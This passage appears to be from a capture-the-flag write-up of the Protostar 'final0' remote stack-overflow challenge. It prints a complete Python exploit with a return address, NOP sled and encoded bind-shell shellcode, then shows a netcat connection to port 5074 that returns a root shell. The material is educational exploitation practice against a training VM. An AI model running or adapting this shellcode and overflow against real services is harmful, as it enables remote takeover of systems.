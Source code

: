 Given this information, it should be pretty safe to use 0xbffffabf as a return address.  The final script would be:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xbf\xfa\xff\xbf" #0xbffffabf

nop = "\x90"*16

#http://www.exploit-db.com/exploits/13427/
shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"

junk = "a"*(offset-len(nop)-len(shellcode))

s.send(nop + shellcode + junk + ret)
```

I then ran this script:

```
root@protostar:/home/user# ./final0_before.py
```

The shellcode said that it would bind a shell to port 5074, so I used netcat to connect.

```
root@protostar:/home/user# nc localhost 5074
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

That's root access from the network.  Challenge complete.

After
-----

When putting the shellcode after the return address, we don't have to worry about the "toupper()" function.  I simply used the [Metasploit Framework's](http://www.metasploit.com) msfpayload and msfencode functions to generate a basic bind shell.
